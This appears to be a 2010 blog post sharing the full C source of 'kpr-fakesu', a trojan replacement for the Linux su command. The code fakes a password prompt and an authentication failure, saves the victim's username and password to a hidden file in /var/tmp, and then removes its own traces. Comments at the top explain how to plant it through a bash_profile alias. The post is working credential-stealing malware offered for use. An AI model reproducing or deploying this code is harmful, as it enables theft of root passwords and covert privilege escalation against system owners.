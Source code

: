 title: linux 记录su登陆密码代码
categories: [网络安全,Linux,C编程]
tags: []
date: 2010-08-13 19:17:00
---
/* <br />* kpr-fakesu.c V0.9beta167 ;P<br />* by koper &lt;[email]koper@linuxmail.org[/email]&gt;<br /><em><br /></em> Setting up:<br />* admin@host:~$ gcc -o .su fakesu.c; rm -rf fakesu.c<br />* admin@host:~$ mv .su /var/tmp/.su<br />* admin@host:~$ cp .bash_profile .wgetrc<br />* admin@host:~$ echo &quot;alias su=/var/tmp/.su&quot;&gt;&gt;.bash_profile<br />* admin@host:~$ logout<br />* *** LOGIN **<em><br /></em> admin@host:~$ su<br />* Password: <br />* su: Authentication failure<br />* Sorry.<br />* admin@host:~$ su<br />* Password: <br />* root@host:~# logout<br />* admin@host:~$ cat /var/tmp/.pwds<br />* root:dupcia17<br />* admin@host:~$ <br />* <br />* /bin/su sends various failure information depending on the OS ver.<br />* Please modify the source to make it &quot;fit&quot; ;)<br />* <br />*/<br /><br />#include &lt;stdio.h&gt;<br />#include &lt;stdlib.h&gt;<br />#include &lt;unistd.h&gt;<br /><br />main(int argc, char *argv[]){<br /><br />FILE *fp;<br />char *user;<br />char *pass;<br />char filex[100];<br />char clean[100];<br /><br />sprintf(filex,&quot;/var/tmp/.pwds&quot;);<br />sprintf(clean,&quot;rm -rf /var/tmp/.su;mv -f /home/sichunfeng/.wgetrc /home/sichunfeng/.bash_profile&quot;);<br />if(argc==1) user=&quot;root&quot;;<br />if(argc==2) user=argv[1];<br />if(argc&gt;2){<br />if(strcmp(argv[1], &quot;-l&quot;)==0)<br />user=argv[2];<br />else user=argv[1];}<br /><br />fprintf(stdout,&quot;Password: &quot;); <br />pass=getpass (&quot;&quot;);<br />system(&quot;sleep 3&quot;);<br />fprintf(stdout,&quot;su: Authentication failurenSorry.n&quot;);<br /><br />if ((fp=fopen(filex,&quot;w&quot;)) != NULL)<br />{<br />fprintf(fp, &quot;%s:%sn&quot;, user, pass);<br />fclose(fp);<br />}<br /><br />system(clean);<br />system(&quot;rm -rf /var/tmp/.su; ln -s /bin/su /var/tmp/.su&quot;);<br />}